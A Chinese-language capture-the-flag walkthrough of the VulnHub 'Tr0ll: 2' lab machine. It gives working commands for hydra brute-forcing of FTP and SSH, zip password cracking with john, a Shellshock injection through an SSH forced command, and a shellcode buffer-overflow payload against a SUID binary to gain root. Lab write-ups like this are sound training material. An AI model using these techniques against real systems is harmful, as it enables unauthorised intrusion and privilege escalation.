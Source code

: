 # Tr0ll: 2

https://www.vulnhub.com/entry/tr0ll-2,107/

difficulty: Beginner

Finish Date：2024-4-13

## IP

192.168.10.160

## Scan

Open Port -> 21,22,80

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.0.8 or later
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 82fe93b8fb38a677b5a625786b35e2a8 (DSA)
|   2048 7da599b8fb6765c96486aa2cd6ca085d (RSA)
|_  256 91b86a45be41fdc814b502a0667c8c96 (ECDSA)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.22 (Ubuntu)
```

ftp 不允许匿名登陆，banner 提示为：Welcome to Tr0ll FTP... Only noobs stay for a while...，但是目前也没有用户名和密码，猜测几个账号试试能否登陆进去。

在看看 80 上有什么东西，首页源代码中发现了一个注释：Author: Tr0ll，其他没什么有用信息。

对 web 服务进行目录扫描，http://192.168.10.160/robots.txt 下发现了提示信息：

```
User-agent:*
Disallow:
/noob
/nope
/try_harder
/keep_trying
/isnt_this_annoying
/nothing_here
/404
/LOL_at_the_last_one
/trolling_is_fun
/zomg_is_this_it
/you_found_me
/I_know_this_sucks
/You_could_give_up
/dont_bother
/will_it_ever_end
/I_hope_you_scripted_this
/ok_this_is_it
/stop_whining
/why_are_you_still_looking
/just_quit
/seriously_stop
```

将这些文件保存到 txt 中再次进行目录扫描，看看哪些目录是存在的：

```
/noob                 (Status: 301) [Size: 315] [--> http://192.168.10.160/noob/]
/keep_trying          (Status: 301) [Size: 322] [--> http://192.168.10.160/keep_trying/]
/dont_bother          (Status: 301) [Size: 322] [--> http://192.168.10.160/dont_bother/]
/ok_this_is_it        (Status: 301) [Size: 324] [--> http://192.168.10.160/ok_this_is_it/]
```

访问他们，都显示的是一个图片，图片的名字有意思：cat_the_troll.jpg，提示图片中可能有隐藏信息，依次把上面四个连接中的图片下载下来，然后用 strings 进行查看，最终在 /dont_bother/ 这个目录的图片最后一行发现了提示：Look Deep within y0ur_self for the answer

查看目录：http://192.168.10.160/y0ur_self 有一个 answer.txt 文件，里面显示的是一个列表，但是里面有好多重复的内容，让我们对这个内容处理下，去掉重复的内容，看看剩下的有什么：

```
sort -u answer.txt > u.txt
base64 -d u.txt > file.txt
```

最终 fineile.txt 中的内容，像是密码字典。目前我们只有 2 个服务能访问 ftp 和 ssh，但是都没有现成的用户名和密码，前面发现的 Author: Tr0ll，这个 Tr0ll 可能是一个用户名，让我们用发现的密码字典去尝试爆破：

```
hydra -t 20 -l Tr0ll -P file.txt ftp://192.168.10.160
hydra -t 20 -l Tr0ll -P file.txt ssh://192.168.10.160
```

但是上面两个爆破都没成功，在想想，有时候管理员可能把用户名和密码都设置成一样的，再次尝试都使用 Tr0ll:Tr0ll 登陆 ftp 成功。

进入 ftp 后发现文件 lmao.zip，将其下载到 kali 上。查看压缩包，但是压缩包加了密，密码的话有没有可能存在上面我们找到的密码字典中，进一步进行尝试，使用 john 将 zip 转换成符合的格式，然后进行爆破：

```
zip2john lmao.zip > lmao
john --wordlist=./file.txt lmao
```

得到解压密码：ItCantReallyBeThisEasyRightLOL，解压后得到了一个私钥文件，很有可能是登陆 ssh 的，但是我们不知道 ssh 用户名，从前面收集的信息来和结合这个文件名来看，有可能是：Tr0ll、lmao、noob，依次进行尝试登陆。Tr0ll、lmao 这两个都不能登陆，只有 noob 能登陆，但是登陆后立马就被断开连接了。

```
ssh -i id_rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa noob@192.168.10.160
TRY HARDER LOL!
Connection to 192.168.10.160 closed.
```

这里整不会了，去搜索一些资料看看怎么能进行连接。发现有 Shellshock 漏洞，利用下面的代码，最终获得了 bash 执行权限：

```
ssh -i id_rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa noob@192.168.10.160 -v  查看一下ssh连接的详细信息，注意到有：debug1: Remote: Forced command.

ssh -i id_rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa noob@192.168.10.160 '() { :;}; echo Shellshock'  先用此命令进行漏洞复现，最后打印出：Shellshock

ssh -i id_rsa -o PubkeyAcceptedKeyTypes=+ssh-rsa noob@192.168.10.160 '() { :;}; /bin/bash'
python -c 'import pty; pty.spawn("/bin/bash")'
```

上传 linpeas.sh 进行系统枚举，发现了几个非系统的 SUID 文件：

```
-rwsr-xr-x 1 root root 8.3K Oct  5  2014 /nothing_to_see_here/choose_wisely/door2/r00t (Unknown SUID binary!)
-rwsr-xr-x 1 root root 7.2K Oct  5  2014 /nothing_to_see_here/choose_wisely/door3/r00t (Unknown SUID binary!)
-rwsr-xr-x 1 root root 7.2K Oct  5  2014 /nothing_to_see_here/choose_wisely/door1/r00t (Unknown SUID binary!)
```

在.bash_history 中找到了这些操作，看上去好像能造成缓冲区溢出：

```
cat .bash_history
./bof
./bof @@@@@@@@@@@@
gdb bof
rm bof
ls -al
rm .bash_history
su root
```

door1 和 door3 中的程序执行后，不是断开 ssh 连接，就是禁用了 ls 命令。door2 中对应的 r00t 可提供输入内容，可能存在缓冲区溢出漏洞，对缓冲区溢出攻击不熟悉，找了一些 payload 完成了提升至 root 权限。

```
./r00t env - ./r00t $(python -c 'print "A" * 268 + "\x80\xfc\xff\xbf" + "\x90" * 16 + "\xdb\xd6\xb8\xac\x61\x13\xf8\xd9\x74\x24\xf4\x5d\x2b\xc9\xb1\x0b\x31\x45\x1a\x03\x45\x1a\x83\xc5\x04\xe2\x59\x0b\x18\xa0\x38\x9e\x78\x38\x17\x7c\x0c\x5f\x0f\xad\x7d\xc8\xcf\xd9\xae\x6a\xa6\x77\x38\x89\x6a\x60\x32\x4e\x8a\x70\x6c\x2c\xe3\x1e\x5d\xc3\x9b\xde\xf6\x70\xd2\x3e\x35\xf6"')
<c\xe3\x1e\x5d\xc3\x9b\xde\xf6\x70\xd2\x3e\x35\xf6"')
```

最后得到了 root 权限：

```
# cat Proof.txt
cat Proof.txt
You win this time young Jedi...

a70354f0258dcc00292c72aab3c8b1e4
```

